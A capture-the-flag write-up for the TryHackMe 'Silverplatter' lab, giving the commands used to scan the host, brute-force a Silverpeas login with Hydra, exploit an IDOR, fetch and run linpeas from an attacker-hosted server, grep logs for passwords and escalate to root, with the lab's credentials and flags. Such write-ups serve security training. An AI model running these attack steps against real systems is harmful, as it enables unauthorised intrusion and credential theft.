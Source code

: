 # 🛡️ Penetration Tester Methodology

* **IP Target:** `10.10.203.80`
* **Machine Name:** `Silverplatter.thm`
* **TryHackMe Lab:** [Silverplatter](https://tryhackme.com/room/silverplatter)

---

### 🖥️ Host Enumeration
- **Update** `/etc/hosts`
- To simplify access using a domain name instead of IP:
```bash
$ echo "10.10.203.80 Silverplatter.thm" | sudo tee -a /etc/hosts
```

- **Ping the Host**
- Check if the host is reachable:
```bash
$ ping -c 3 Silverplatter.thm
```
- Result:
```matlab
3 packets transmitted, 3 received, 0% packet loss
```
- The host is up and responsive.

---

### 🔍 PortScanning & Service Enumeration

- **Nmap Scan**
```bash
$ nmap -p- Silverplatter.thm
$ nmap -p 22,80,8080 -A Silverplatter.thm
```

- **RustScan**
```bash
# Install RustScan tool
$ sudo wget https://github.com/bee-san/RustScan/releases/download/2.4.1/x86-linux-rustscan.zip
$ sudo unzip x86-linux-rustscan.zip
$ echo $PATH
/usr/local/bin
$ sudo mv rustscan /usr/local/bin/
```
- We ran it on the target IP address `10.10.203.80` to perform an aggressive scan
```bash
$ rustscan -a Silverplatter.thm -- -A
```
- Scan Results:
    - `22`: SSH
    - `80`: HTTP (nginx)
    - `8080`: HTTP Proxy

---

### Web Application Enumeration
- **SSH (22)**
```bash
$ ssh root@Silverplatter.thm
```
- SSH uses password based authentication.

---

### 📁 Directory & VHost Enumeration
- **FFUF – Directory Bruteforce**
```bash
$ ffuf -u http://Silverplatter.thm/FUZZ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
- Result
```yaml
assets                  [Status]
```

- **FFUF – Virtual Host Enumeration**
```bash
$ ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.Silverplatter.thm" -u http://Silverplatter.thm/ --fs 14124
```
- Result
```yaml
clienti, way, madmax
```

---

### 🌐 Website Observations
* **CMS:** Silverpeas
* **Found Username:** scr1ptkiddy
* **Screenshots:**

![alt text](image.png)

![alt text](image-1.png)

---

### 🚀 Exploitation Phase

* **📄 Create Custom Password List with cewl**
```bash
$ sudo apt install cewl -y
$ cewl http://Silverplatter.thm > custom-password.txt
``` 

* **🔐 Test Login Form (Manual)**
- Test login form.
![alt text](image-2.png)

```
POST /silverpeas/AuthenticationServlet HTTP/1.1
Host: 10.10.203.80:8080
Content-Type: application/x-www-form-urlencoded
...
Login=scr1ptkiddy&Password=test&DomainId=0
```

* **💣 Hydra – Brute-Force Login**
```bash
$ hydra -l scr1ptkiddy -P custom-password.txt Silverplatter.thm -s 8080 http-post-form "/silverpeas/AuthenticationServlet:Login=^USER^&Password=^PASS^&DomainId=0:Login or password incorrect"
```
- Found Credentials
```
login: scr1ptkiddy   password: adipiscing
```


- **Caido**
![alt text](image-3.png)
![alt text](image-4.png)

- **✅ Login Success Screenshot**
- Use the credentials that I found to login the form.
![alt text](image-5.png)

---

### 🆔 IDOR Discovery & Credential Dump
- IDOR found by inspecting requests
- Found another set of credentials:
```
Username: tim
Password: cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```

---

### SSH Access as tim
```bash
$ ssh tim@Silverplatter.thm
```

- **🪪 Post Exploitation – user.txt**
```bash
tim@silver-platter:~$ ls
user.txt
tim@silver-platter:~$ cat user.txt 
THM{c4ca4238a0b923820dcc509a6f75849b}
```

* **🔐 Sudo Privileges** 
```bash
tim@silver-platter:~$ sudo -l
[sudo] password for tim: 
Sorry, user tim may not run sudo on silver-platter.
```

* **👥 Escalating to tyler**
- Check `/etc/passwd`
```bash
$ tim@silver-platter:~$ cat /etc/passwd
tyler:x:1000:1000:root:/home/tyler:/bin/bash
```

* **🛡️ ADM Group Privileges**
```bash
tim@silver-platter:~$ id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```

* **🧪 LinPEAS Enumeration**
```bash
# Attacker
$ wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
python3 -m http.server 80

# Target
tim@silver-platter:~$ wget http://<attacker-ip>/linpeas.sh
tim@silver-platter:~$ chmod +x linpeas.sh
tim@silver-platter:~$ ./linpeas.sh
```

- **🔍 Found Docker Logs with Password**
```bash
tim@silver-platter:/tmp$ cd /var/log
tim@silver-platter:/var/log$ grep -ir "password"
# tyler password: _Zd_zx7N823/
```

---

### 🔐 Privilege Escalation to Root

* **Switch to Tyler**
```bash
tim@silver-platter:/home$ su tyler
# Password: _Zd_zx7N823/

tyler@silver-platter:/home$ sudo su

root@silver-platter:/home# whoami
root

root@silver-platter:/home# ls
tim  tyler

root@silver-platter:/home# cd /root/

root@silver-platter:~# ls
root.txt  snap  start_docker_containers.sh

root@silver-platter:~# cat root.txt
THM{098f6bcd4621d373cade4e832627b4f6}
```

---

